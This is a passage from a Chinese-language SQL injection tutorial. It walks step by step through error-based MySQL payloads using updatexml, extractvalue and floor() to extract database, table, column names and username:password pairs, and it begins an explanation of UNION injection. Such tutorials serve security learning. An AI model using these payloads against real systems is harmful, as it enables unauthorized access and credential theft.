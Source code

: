 这里和上面的`extractvalue`函数一样，当Xpath路径语法错误时，就会报错，报错内容含有错误的路径内容：

![img](https://cdn.jsdelivr.net/gh/hirak0/hirak0-images/blog/sql/20200917231331.png)

### 注入过程

1、尝试用单引号报错

2、获取数据库名

```sql
' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```

--0x7e是"~"符号的16进制，在这作为分隔符
3、获取表名

```sql
' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='数据库名' limit 0,1),0x7e),1)--+
```

4、获取字段名

```sql
' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='数据库名' and table_name='表名' limit 0,1),0x7e),1)--+
```

5、取数据

```sql
' and updatexml(1,concat(0x7e,(select concat(username,0x3a,password) from users limit 0,1),0x7e),1)--+
```

其他函数payload语法：

```sql
--extractvalue
' and extractvalue(1,concat(0x7e,(select database()),0x7e))--+

--floor()
' and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)--+
```

## 联合查询注入

联合查询是可合并多个相似的选择查询的结果集。等同于将一个表追加到另一个表，从而实现将两个表的查询组合在一起，使用为此为UNINO或UNION ALL
联合查询：将多个查询的结果合并到一起（纵向合并）：字段数不变，多个查询的记录数合并

**基本语法**：

```sql
select 语句
union[union选项]
select 语句；
```
